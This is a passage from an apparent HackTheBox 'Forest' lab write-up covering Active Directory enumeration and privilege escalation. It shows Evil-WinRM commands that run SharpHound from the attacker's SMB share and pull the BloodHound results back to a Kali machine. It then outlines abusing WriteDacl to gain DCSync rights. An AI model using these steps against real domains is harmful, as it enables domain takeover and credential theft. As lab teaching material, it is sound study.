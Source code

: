 ```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco> \\10.10.14.20\public\windows\tools\SharpHound.exe
...
*Evil-WinRM* PS C:\Users\svc-alfresco> download C:\Users\svc-alfresco\20221123075411_BloodHound.zip /home/kali/20221123075411_BloodHound.zip
Info: Downloading C:\Users\svc-alfresco\20221123075411_BloodHound.zip to /home/kali/20221123075411_BloodHound.zip

                                                             
Info: Download successful!
```

I downloaded the collector results and we can now check for escalation vectors:

<p align="center"><img alt="Screenshot with the privilege escalation vector" src="/assets/images/HackTheBox/Forest/privesc_bloodhound.PNG"></p>

### Pwning time

Here is the idea, as `svc-alfresco` we can add ourselves to the group `EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL` and then, since we would have `WriteDacl` permissions in the domain, we can just get `DCSync` rights and perform a DCSync attack.
